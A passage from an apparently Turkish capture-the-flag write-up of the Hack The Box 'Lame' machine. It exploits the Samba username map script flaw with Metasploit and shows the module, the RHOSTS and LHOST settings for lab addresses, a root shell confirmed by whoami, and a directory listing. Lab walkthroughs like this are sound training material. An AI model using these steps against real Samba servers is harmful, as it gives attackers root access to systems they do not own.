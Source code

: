Bu modül ile Samba’nın username map script özelliğini kullanarak sistemi sömürebiliriz. Bu özellik normalde, kullanıcı ismine göre yönlendirme yapan bir betiktir. Ancak eski Samba sürümlerinde, bu betik kullanıcı adı yerine yazılan her şeyi — örneğin 'Bana bir arka kapı oluştur!' gibi bir cümleyi — komut olarak çalıştırdığı için, saldırganlar bu açığı kullanarak sistemi ele geçirebiliyor.
Modülü “use” komutu ile kullanalım. Ayarları görüntüleyelim.

<div class="code-window">
<br>
msf6 exploit<span class="highlight">(multi/samba/usermap_script)</span> > show options 
</div>

<div style="text-align: center;">
  <img src="./assets/images/htb_lame/sambashow.webp" width="1000" height="300">
</div>

Açığı sömürmek amacıyla gereken parametreleri/ayarları tanımlayalım. 
<div class="code-window">
<br>
msf6 exploit<span class="highlight">(multi/samba/usermap_script)</span> > set RHOSTS 10.10.10.3<br>
RHOSTS => 10.10.10.3
</div>

Eğer VPN kullanıyorsanız dinleme adresine kendi VPN IP adresinizi girmeniz gerekmektedir. 
<div class="code-window">
<br>
msf6 exploit<span class="highlight">(multi/samba/usermap_script)</span> > set LHOST 10.10.14.34<br>
LHOST => 10.10.14.34
</div>

Run komutu ile shell açılıyor. 

# User Bayrağı

Shell açıldıktan sonra ilk olarak hangi kullanıcı olduğumu görüntüleyelim.
<div class="code-window">
<br>
whoami<br>
root
</div>
Root kullanıcısıysak güç bizde demektir. Txt dosyasını bulmak için sistemde biraz daha dolaşalım. 
<div class="code-window">
<br>
ls<br>
bin<br>
boot<br>
cdrom<br>
dev<br>
etc<br>
home<br>